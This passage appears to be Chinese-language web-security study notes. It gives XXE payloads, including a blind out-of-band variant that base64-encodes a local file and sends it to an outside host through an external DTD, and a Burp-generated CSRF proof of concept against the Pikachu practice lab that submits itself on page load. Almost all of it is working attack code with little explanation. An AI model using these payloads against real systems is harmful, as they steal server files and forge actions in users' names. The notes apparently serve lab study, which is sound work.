 ### 外部dtd文件引用

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE ANY [<!ENTITY % file SYSTEM "http://172.22.0.66:8000/my.dtd"> %file;]>
<name>&send;</name>
```

dtd

```xml-dtd
<!ENTITY send SYSTEM "file:///D://a.txt">
```



### 无回显

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE test [<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/a.txt">
<!ENTITY % dtd SYSTEM "http://193.168.4.3/my2.dtd">
	%dtd;
	%send;
]>
```

dtd

```xml-dtd
<!ENTITY % payload 
    "<!ENTITY &#x25; send SYSTEM 'http://193.168.4.3:8000?data=%file;'>"
>
%payload;
```







## CSRF

pikachu靶场post Poc示例

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://127.0.0.1/pikachu/vul/csrf/csrfpost/csrf_post_edit.php" method="POST">
      <input type="hidden" name="sex" value="man&#33;&#33;&#33;" />
      <input type="hidden" name="phonenum" value="114514" />
      <input type="hidden" name="add" value="uk" />
      <input type="hidden" name="email" value="lili&#64;qq&#46;com" />
      <input id="submit" type="submit" value="Submit request" hidden />
      <script>
      // 加一段js，让它自动执行
      window.onload = function() {
        document.getElementById("submit").click();
      }
      </script>
    </form>
  </body>
</html>
```
